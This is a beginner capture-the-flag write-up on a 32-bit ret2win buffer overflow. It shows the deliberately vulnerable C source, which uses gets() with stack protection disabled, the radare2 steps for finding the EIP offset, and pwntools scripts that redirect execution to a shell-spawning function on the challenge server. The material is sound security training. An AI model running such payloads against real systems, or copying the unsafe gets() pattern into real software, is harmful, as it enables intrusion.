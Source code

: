 ```yaml
---
description: Binary Exploitation
---
```


# Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

{% file src="../../.gitbook/assets/babybufov" %}

{% file src="../../.gitbook/assets/babybufov.c" %}

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's ](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win)guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

<div align="center" data-full-width="false">

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

</div>
